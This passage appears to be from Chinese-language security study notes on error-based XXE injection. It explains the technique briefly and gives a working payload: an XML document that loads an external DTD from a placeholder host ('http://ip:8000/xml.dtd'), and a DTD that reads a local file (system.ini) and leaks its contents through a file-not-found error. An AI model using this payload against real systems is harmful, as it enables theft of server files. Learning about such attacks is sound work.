 ![image-20230605192212337](../../../images/image-20230605192212337.png)

#### 基于报错

构造一个错误的url并将泄露文件内容放在url中，通过这样的方式返回数据。

##### 引入服务器实体

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % xxe SYSTEM "http://ip:8000/xml.dtd"> 
    %xxe;
]>
```

xml.dtd

```xml-dtd
<!--通过执行error实体，以便通过尝试加载不存在的文件来带出目标文件的值，从而生成包含不存在文件的名称的错误消息，该文件是/etc/passwd文件的内容-->

<!ENTITY % file SYSTEM "file:///c:/windows/system.ini">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

![image-20230606142023880](../../../images/image-20230606142023880.png)
